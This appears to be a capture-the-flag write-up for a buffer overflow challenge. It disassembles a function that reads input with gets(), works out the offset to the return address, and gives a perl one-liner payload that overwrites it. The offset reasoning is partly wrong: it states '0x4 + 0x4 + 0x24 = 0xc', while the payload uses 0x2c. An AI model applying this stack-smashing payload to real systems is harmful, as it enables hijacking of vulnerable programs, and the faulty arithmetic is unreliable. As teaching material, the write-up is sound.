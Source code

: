 # Buffer Overflow 1

Inspecting the dump of the vulnerable function:

``` console
$ objdump -d -Mintel vuln | sed -n '/^[a-f0-9]\+ <vuln>/,/^$/p' 
08049281 <vuln>:
 8049281:	f3 0f 1e fb          	endbr32 
 8049285:	55                   	push   ebp
 8049286:	89 e5                	mov    ebp,esp
 8049288:	53                   	push   ebx
 8049289:	83 ec 24             	sub    esp,0x24
 804928c:	e8 9f fe ff ff       	call   8049130 <__x86.get_pc_thunk.bx>
 8049291:	81 c3 6f 2d 00 00    	add    ebx,0x2d6f
 8049297:	83 ec 0c             	sub    esp,0xc
 804929a:	8d 45 d8             	lea    eax,[ebp-0x28]
 804929d:	50                   	push   eax
 804929e:	e8 ad fd ff ff       	call   8049050 <gets@plt>
 80492a3:	83 c4 10             	add    esp,0x10
 80492a6:	e8 93 00 00 00       	call   804933e <get_return_address>
 80492ab:	83 ec 08             	sub    esp,0x8
 80492ae:	50                   	push   eax
 80492af:	8d 83 64 e0 ff ff    	lea    eax,[ebx-0x1f9c]
 80492b5:	50                   	push   eax
 80492b6:	e8 85 fd ff ff       	call   8049040 <printf@plt>
 80492bb:	83 c4 10             	add    esp,0x10
 80492be:	90                   	nop
 80492bf:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 80492c2:	c9                   	leave  
 80492c3:	c3                   	ret    
```

From the code we see that our buffer has length `0x24`, so the instruction at
`0x8049289` is allocating this. Since the return address will be at the top of
the stack we just need to check how many bytes we have to overwrite before we
stomp that, so glancing at the first few instructions:

``` 
08049281 <vuln>:
 8049281:	f3 0f 1e fb          	endbr32 
 8049285:	55                   	push   ebp      <--- -0x4
 8049286:	89 e5                	mov    ebp,esp
 8049288:	53                   	push   ebx      <--- -0x4
 8049289:	83 ec 24             	sub    esp,0x24 <--- -0x24
```

So it should suffice to write `0x4 + 0x4 + 0x24 = 0xc` bytes before writing the
address, so we could construct our payload like:

``` console
perl -E 'say("A" x 0x2c . "\xff\xff\xff\xff")' | ./vuln
```

Where `"\xff\xff\xff\xff"` is the address we read of the disassembled binary
(there doesn't appear to be any address randomisation; the function is at the
same address each run).
